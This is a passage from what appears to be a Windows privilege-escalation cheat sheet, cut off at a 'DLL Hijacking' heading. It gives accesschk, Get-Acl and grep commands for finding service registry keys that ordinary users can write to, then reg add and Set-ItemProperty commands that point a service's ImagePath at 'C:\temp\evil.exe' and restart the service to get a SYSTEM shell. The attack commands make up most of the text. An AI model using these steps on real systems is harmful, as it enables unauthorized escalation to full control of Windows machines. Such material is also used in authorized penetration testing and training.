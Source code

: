 - Launching a Scheduled Task manually using _schtasks_.

```powershell
schtasks /RUN /TN "Task Name"
```

---

### Insecure Service Registry Permissions

- Find writable registry keys for services using Accesschk.

```powershell
accesschk.exe "NT AUTHORITY\INTERACTIVE" -kvuqsw hklm\System\CurrentControlSet\services -accepteula
accesschk64.exe "BUILTIN\Users" -kqswvu hklm\System\CurrentControlSet\services -accepteula
accesschk64.exe "Everyone" -kqswvu hklm\System\CurrentControlSet\services -accepteula
```

- Hunt the kyes with Linux

```powershell
Get-Acl -Path hklm:\System\CurrentControlSet\services\* | Format-List | Out-File -FilePath C:\temp\service_keys.txt
```

On Linux run

```bash
cat service_keys.txt | grep -i "Path\|Access\|BUILTIN\\\Users\|Everyone\|INTERACTIVE\|Authenticated Users" | grep -v "ReadKey" | grep -B 1 -i "Authenticated Users|\BUILTIN\\\Users\|Everyone\|INTERACTIVE\|FullControl\|Modify\|Write"
```

- Check query value.

```powershell
reg query HKLM\SYSTEM\CURRENTCONTROLSET\Services\SomeSoftwareName /v ImagePath
```

- Change image path.

```powershell
reg add HKLM\SYSTEM\CURRENTCONTROLSET\Services\SomeSoftwareName /v ImagePath /d "C:\temp\evil.exe"
```

```powershell
Set-ItemProperty -Path "hklm:\System\CurrentControlSet\services\SomeSoftwareName" -Name "ImagePath" -Value "C:\temp\evil.exe"
```

- Restart the service and the custom payload will be executed instead of the service binary and it will return back a shell as SYSTEM.

```powershell
sc start "SomeSoftwareName"
```

---

### DLL Hijacking
